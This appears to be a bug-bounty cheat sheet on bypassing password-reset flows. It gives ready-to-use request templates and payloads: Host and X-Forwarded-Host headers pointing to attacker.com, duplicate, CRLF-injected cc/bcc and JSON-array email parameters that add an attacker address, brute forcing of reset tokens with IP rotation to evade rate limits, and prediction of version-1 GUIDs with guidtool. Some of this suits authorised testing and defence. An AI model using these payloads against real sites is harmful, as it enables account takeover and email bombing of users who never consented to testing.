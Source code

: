 # Reset Password Bypass

## Password Reset Poisoning
If you find a host header attack and it’s out of scope, try to find the password reset button!
* Intercept the password reset request in Burpsuite
* Add following header or edit header in burpsuite(try one by one)
```javascript
Host: attacker.com
```
```javascript
Host: target.com
X-Forwarded-Host: attacker.com

```
```javascript
 Host: target.com
 Host: attacker.com
```
* Check if the link to change the password inside the email is pointing to attacker.com

## Password Reset By Manipulating Email Parameter
* Add attacker email as second parameter using &
```javascript
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```

* Add attacker email as second parameter using %20
```javascript
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```

* Add attacker email as second parameter using |
```javascript
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

* Add attacker email as second parameter using cc
```javascript
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

* Add attacker email as second parameter using bcc
```javascript
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

* Add attacker email as second parameter using ,
```javascript
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

* Add attacker email as second parameter in json array
```javascript
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

## Changing Email And Password of any User through API Parameters
1. Attacker have to login with their account and Go to the Change password function
2. Start the Burp Suite and Intercept the request
3. After intercepting the request sent it to repeater and modify parameters Email and Password
```javascript
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```

## No Rate Limiting: Email Bombing
1. Start the Burp Suite and Intercept the password reset request
2. Send to intruder
3. Use null payload

## Find out How Password Reset Token is Generated
pattern of password reset token

If it
* Generated based Timestamp
* Generated based on the UserID
* Generated based on email of User
* Generated based on Firstname and Lastname
* Generated based on Date of Birth
* Generated based on Cryptography

**Use Burp Sequencer to find the randomness or predictability of tokens**


## Guessable GUID
There are different types of GUIDs:
* Version 0: Only seen in the nil GUID ("00000000-0000-0000-0000-000000000000").
* Version 1: The GUID is generated in a predictable manner based on:
  * The current time
  * A randomly generated "clock sequence" which remains constant between GUIDs during the uptime of the generating system
  * A "node ID", which is generated based on the system's MAC address if it is available
* Version 3: The GUID is generated using an MD5 hash of a provided name and namespace.
* Version 4: The GUID is randomly generated.
* Version 5: The GUID is generated using a SHA1 hash of a provided name and namespace.

Tools: [guidtool](https://github.com/intruder-io/guidtool)
```bash
guidtool -i 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c
UUID version: 1
UUID time: 2021-11-17 17:52:18.141000
UUID timestamp: 138564643381410000
UUID node: 17547390002044
UUID MAC address: 0f:f5:91:f2:a3:7c
UUID clock sequence: 3426

```
If the used version to generate a reset password GUID is the version 1, it's possible to bruteforce GUIDS:
```bash
guidtool 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c -t '2021-11-17 18:03:17' -p 10000
a34aca00-47d0-11ec-8d62-0ff591f2a37c
a34af110-47d0-11ec-8d62-0ff591f2a37c

```

## Response manipulation: Replace Bad Response With Good One
Look for Request and Response like these
```javascript
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)

// Change Response
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)

```

## Using Expired Token
* Check if the expired token can be reused


## Brute Force Password Rest token
Try to bruteforce the reset token using Burpsuite
```javascript
POST /resetPassword
[...]
email=victim@email.com&code=$BRUTE$

```
* Use IP-Rotator on burpsuite to bypass IP based ratelimit.

## Try Using Your Token
* Try adding your password reset token with victim’s Account
```javascript
POST /resetPassword
[...]
email=victim@email.com&code=$YOUR_TOKEN$

```

## Session Invalidation in Logout/Password Reset
When a user logs out or reset his password, the current session should be invalidated.
Therefore, grab the cookies while the user is logged in, log out, and check if the cookies are still valid.

Repeat the process changing the password instead of logging out.


## Reset Token expiration Time
The reset tokens must have an expiration time, after it the token shouldn't be valid to change the password of a user.


## Extra Checks
* Use username@burp_collab.net and analyze the callback
* User carbon copy email=victim@mail.com%0a%0dcc:hacker@mail.com
* Long password (>200) leads to DoS
* Append second email param and value


















